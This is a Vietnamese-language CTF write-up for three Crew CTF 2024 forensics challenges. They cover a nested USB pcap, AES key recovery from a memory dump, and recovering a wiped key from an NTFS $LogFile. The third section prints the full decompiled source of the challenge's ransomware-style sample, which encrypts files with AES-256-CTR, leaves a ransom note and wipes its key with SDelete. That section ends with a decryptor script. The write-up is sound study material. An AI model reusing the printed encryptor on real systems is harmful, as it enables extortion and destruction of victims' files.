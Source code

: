 # Crew CTF 2024.
### I. Recursion.
```
Question: I caught my co-worker moving some weird files on a USB, can you tell me whats going on?
```
- chall này cho ta 1 file `.pcap`mở file và check thì bên trong có dữ liệu của USB bulk là 1 dạng flash drive, không có `HID` data nhưng mà ta lại có `leftover` data.
![1723278339813](image/writeup/1723278339813.png)
- Ta có thể đễ dạng thấy 1 file `layer4.pcap` bằng cách sử dụng `binwalk` extract file trong file giống y hệt bài `russia doll`.
```
$ pwd
/mnt/d/FORENSICS/challenge/CrewCTF/Recursion/_usb.pcapng.extracted/_layer4.pcapng.extracted/_layer3.pcapng.extracted/_layer2.extracted/_layer1
```

```
$ strings layer1.pcapng | grep crew
crew{l00ks_l1ke_y0u_mad3_1t!}
```

*`FLAG: crew{l00ks_l1ke_y0u_mad3_1t!}`*

### II. Crymem.
```
Question: I obtained a memory dump including encrypted flag. How to decrypt it? Maybe, the source code leads us insights…
```
- Chall này cho ta 1 file memory và 1 source c++ mã hóa flag bằng `AES`, chall này ta ko thể sử dụng `vol3` vì 1 lý do nào đó.
- Ta sẽ sử dụng string với `option -E` để tìm kiếm các giá trị đó xem có hong nha.
```
$ strings memdump.raw | grep -E "ENCFLAG|IVVALUE|key.txt|plaintext.txt"
key.txt
plaintext.txt
tmp/key.txt
cannot read key.txt
tmp/plaintext.txt
cannot read plaintext.txt
IVVALUE:
ENCFLAG:
key.txt
plaintext.txt
cp /mnt/hgfs/shared_debian12_ctf_test_1/plaintext.txt tmp/
cp /mnt/hgfs/shared_debian12_ctf_test_1/key.txt tmp/
IVVALUE:0ac516e1bc21a36e68932e05ff8aa480
ENCFLAG:caed872aab2b3427778413df7ffa0cb769db2ef567ddc815a3e43a2a0b69b0899a504b198720197c93b897f45313d469
cp /mnt/hgfs/shared_debian12_ctf_test_1/plaintext.txt tmp/
cp /mnt/hgfs/shared_debian12_ctf_test_1/key.txt tmp/
cp /mnt/hgfs/shared_debian12_ctf_test_1/plaintext.txt tmp/
cp /mnt/hgfs/shared_debian12_ctf_test_1/key.txt tmp/
tmp/key.txt
cannot read key.txt
tmp/plaintext.txt
cannot read plaintext.txt
IVVALUE:
ENCFLAG:
IVVALUE:0ac516e1bc21a36e68932e05ff8aa480
ENCFLAG:caed872aab2b3427778413df7ffa0cb769db2ef567ddc815a3e43a2a0b69b0899a504b198720197c93b897f45313d469
cp /mnt/hgfs/shared_debian12_ctf_test_1/plaintext.txt tmp/
cp /mnt/hgfs/shared_debian12_ctf_test_1/key.txt tmp/
MESSAGE=     ctf : TTY=tty1 ; PWD=/home/ctf ; USER=root ; COMMAND=/usr/bin/chown ctf:ctf aes_sample.c aes_sample.out history20240216.txt key.txt plaintext.txt
cp /mnt/hgfs/shared_debian12_ctf_test_1/plaintext.txt tmp/
cp /mnt/hgfs/shared_debian12_ctf_test_1/key.txt tmp/
MESSAGE=     ctf : TTY=tty1 ; PWD=/mnt/hgfs/shared_debian12_ctf_test_1 ; USER=root ; COMMAND=/usr/bin/chown ctf:ctf aes_sample.c aes_sample.out history20240216.txt key.txt plaintext.txt
_CMDLINE=sudo chown ctf:ctf aes_sample.c aes_sample.out history20240216.txt key.txt plaintext.txt
MESSAGE=     ctf : TTY=tty1 ; PWD=/home/ctf ; USER=root ; COMMAND=/usr/bin/chown ctf:ctf aes_sample.c history20240216.txt key.txt plaintext.txt
_CMDLINE=sudo chown ctf:ctf aes_sample.c history20240216.txt key.txt plaintext.txt
```
- Ta chỉ có thể có được `ENCFLAG` và `IVVALUE` thôi với `AES` ta cần phải có cả `KEY` nữa ta có thể thấy có `key.txt` nhưng do ko thể sử dụng `vol` nên ta đành phải sử dụng cách khác.
- Ta có thể sử dụng `bulk_extractor` để lấy key vì đây là 1 tool được tạo ra để tìm kiếm các data ẩn bên hoặc các file có định dạng mặc định hoặc đã bị mã hóa.
```
└─$ bulk_extractor -o output/ memdump.raw

└─$ cat aes_keys.txt 
# BANNER FILE NOT PROVIDED (-b option)
# BULK_EXTRACTOR-Version: 2.1.1
# Feature-Recorder: aes_keys
# Filename: memdump.raw
# Feature-File-Version: 1.1
266205440       11 f9 f5 aa fa d8 e5 7c 0d 14 b2 e1 b5 2d 83 d6 AES128
```
- Sử dụng `Cyber Chef` ta có lun flag.
![1723281140383](image/writeup/1723281140383.png)

*`FLAG: crew{M3m0ry_f0r3N_is_mysterious_@_crypt0_Challs}`*

### III. Fiilllleeeeeeeev.
- Chall này cho ta 1 file `.ad1` và cho ta sẵn flag đã bị encrypt ta cần phải biết key cũng như là loại mã hóa mới có thể có flag, mở file bằng `FTK imager` ta thấy có 1 con `sdelete64.exe` dường như là một tiện ích của Microsoft giúp xóa các tệp khỏi hệ thống một cách an toàn. Đọc về SDelete, có vẻ như nó thực sự ghi đè tên tệp của từng tệp đã xóa bằng cách đổi tên tệp 26 lần, mỗi lần thay thế từng ký tự trong tên tệp bằng một ký tự chữ cái liên tiếp và cũng có vẻ file `ZZZZZZZZ` này là file đã bị xóa.
![1723288867077](image/writeup/1723288867077.png)
- Ta cũng có 1 file exe khác là `fiilllleeeeeeee.exe` export về nhìn logo thì chắc chắn nó được compile bằng python rồi.
![1723289026969](image/writeup/1723289026969.png)
- Sử dụng `Pyinstxtractor` để lấy file `.pyc` và sử dụng [Pylingual](https://pylingual.io) để decompile ta sẽ được source sau:
```
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: fiilllleeeeeeee.py
# Bytecode version: 3.12.0rc2 (3531)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import subprocess
from cryptography.hazmat.primitives.asymmetric.x25519 import X25519PrivateKey, X25519PublicKey
from cryptography.hazmat.primitives.ciphers import algorithms, Cipher, modes
from hashlib import sha256
from pathlib import Path
import os
import shelve
import sys
PUBLIC_KEY = X25519PublicKey.from_public_bytes(bytes.fromhex('18099b8ba29b20553ee1fb36280fce8fcd616d036c70d24fe7918bc199baa879'))
if getattr(sys, 'frozen', False):
    WORKING_DIRECTORY = Path(sys.executable).parent
else:
    WORKING_DIRECTORY = Path(__file__).parent
SHARED_KEY_FILE = WORKING_DIRECTORY / 'shared_key'
MESSAGE_FILE = WORKING_DIRECTORY / 'message.txt'
SDELETE_FILE = WORKING_DIRECTORY / 'sdelete64.exe'
ENCRYPT_DIRECTORY = Path.home() / 'Documents' / 'is_you_happen_to_have_a_directory_named_this_and_they_get_encrypted_then_its_on_you'
MAGIC = b'ENCRYPTED\x00\x00\x00\xde\xad\xbe\xef'

def main():
    if SHARED_KEY_FILE.exists():
        shared_key = SHARED_KEY_FILE.read_bytes()
    else:
        private_key = X25519PrivateKey.generate()
        public_key = private_key.public_key().public_bytes_raw()
        shared_key = sha256(private_key.exchange(PUBLIC_KEY)).digest()
        MESSAGE_FILE.write_text(f'\n        Whoops! Looks your files are encrypted.\n        Email fake@example.com quoting the following unique ID to decrypt your files:\n        {public_key.hex()}\n        ')
        SHARED_KEY_FILE.write_bytes(shared_key)
    if ENCRYPT_DIRECTORY.exists() and ENCRYPT_DIRECTORY.is_dir():
        for file in ENCRYPT_DIRECTORY.iterdir():
            if not file.is_file():
                continue
            contents = file.read_bytes()
            if contents.startswith(MAGIC):
                continue
            nonce = os.urandom(algorithms.AES256.block_size // 8)
            cipher = Cipher(algorithms.AES256(shared_key), modes.CTR(nonce))
            encryptor = cipher.encryptor()
            file.write_bytes(MAGIC + nonce + encryptor.update(contents) + encryptor.finalize())
    SHARED_KEY_FILE.write_bytes(b'A' * SHARED_KEY_FILE.stat().st_size)
    subprocess.call([str(SDELETE_FILE.resolve()), '/accepteula', str(SHARED_KEY_FILE.resolve())])
    subprocess.call(['notepad.exe', MESSAGE_FILE.resolve()])
if __name__ == '__main__':
    main()
```
- Đọc sơ sơ thì có thể thấy nó mã các file từ folder `is_you_happen_to_have_a_directory_named_this_and_they_get_encrypted_then_its_on_you` và xóa các file bị mã hóa đó bằng `SDelete`, file flag sẽ có header là `ENCRYPTED\x00\x00\x00\xde\xad\xbe\xef` phần còn lại sẽ là flag.
- Ta cần phải có key thì mới decrypt được, Ta có thể extract được key dựa vào `$LogFile` bởi vì nó lưu trữ mọi sự kiện hệ thống tệp trong hệ. Thông tin thêm về `$LogFile` [ở đây](https://forensafe.com/blogs/windowslogfile.html).
- Ta sẽ sử dụng [$LogFileParser](https://github.com/jschicht/LogFileParser) để phân tích `$LogFile` và xem các hoạt động trong hệ thống, tải `$LogFile` từ file `.ad1` .
![1723289837747](image/writeup/1723289837747.png)
- Mở file `ntfs.db` bằng `SQLite` filter `shared_key` ta có thể tìm thấy file `shared_key` đang được thêm dưới dạng index có offset là `43` vào `MFT` và được thay đổi bằng 1 giá trị khác trước khi bị `SDelete` ghi đè.
![1723290202248](image/writeup/1723290202248.png)
- Mở file `Debug.log` tìm kiếm ở offset 43 ta sẽ có được key.
![1723290737896](image/writeup/1723290737896.png)
- Sử dụng source này là có flag òi.
```
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
import binascii
import os

MAGIC = b'ENCRYPTED\x00\x00\x00\xde\xad\xbe\xef'
SHARED_KEY_HEX = '00e0e41eef5fa2449180acdee971e220a33f2ce630a411ad3ae8668ce6261474'
ENCRYPTED_FILE = './flag.txt'

shared_key = binascii.unhexlify(SHARED_KEY_HEX)

def decrypt_file(file_path, shared_key):
    with open(file_path, 'rb') as f:
        contents = f.read()

    if not contents.startswith(MAGIC):
        print(f"{file_path} does not contain the expected MAGIC header.")
        return

    # Extract nonce and encrypted content
    nonce = contents[len(MAGIC):len(MAGIC) + algorithms.AES256.block_size // 8]
    encrypted_content = contents[len(MAGIC) + len(nonce):]

    # Initialize AES-256-CTR decryption
    cipher = Cipher(algorithms.AES256(shared_key), modes.CTR(nonce))
    decryptor = cipher.decryptor()
    decrypted_content = decryptor.update(encrypted_content) + decryptor.finalize()

    print("Flag: " + decrypted_content.decode('utf-8'))

decrypt_file(ENCRYPTED_FILE, shared_key)
```

```
└─$ python decrypt.py
Flag: crew{d0_y0u_637_7h3_ch4ll3n63_n4m3?_f4a73851}
```

*`FLAG: crew{d0_y0u_637_7h3_ch4ll3n63_n4m3?_f4a73851}`*